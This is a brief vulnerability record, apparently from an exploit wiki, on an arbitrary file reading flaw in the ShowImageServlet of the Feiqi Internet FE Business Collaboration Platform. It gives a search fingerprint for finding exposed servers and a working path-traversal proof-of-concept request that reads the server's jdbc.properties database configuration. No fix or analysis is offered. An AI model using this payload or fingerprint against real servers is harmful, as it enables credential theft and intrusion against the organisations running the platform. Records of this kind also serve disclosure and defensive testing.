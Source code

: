 # Feiqi Internet FE Business Collaboration Platform ShowImageServlet Arbitrary File Reading Vulnerability

## Vulnerability Description

Feiqi Internet FE Business Collaboration Platform ShowImageServlet interface has arbitrary file reading vulnerability, and attackers can obtain sensitive files in the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">FeiQi Internet FE Business Collaboration Platform </span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"flyrise.stopBackspace.js"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691841203744-76e35241-156f-4393-b103-5a317c039d3e.png)

Verify POC

```php
/servlet/ShowImageServlet?imagePath=../web/fe.war/WEB-INF/classes/jdbc.properties&print
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691841249185-93bab434-e137-495c-9ec8-48cb4de35486.png)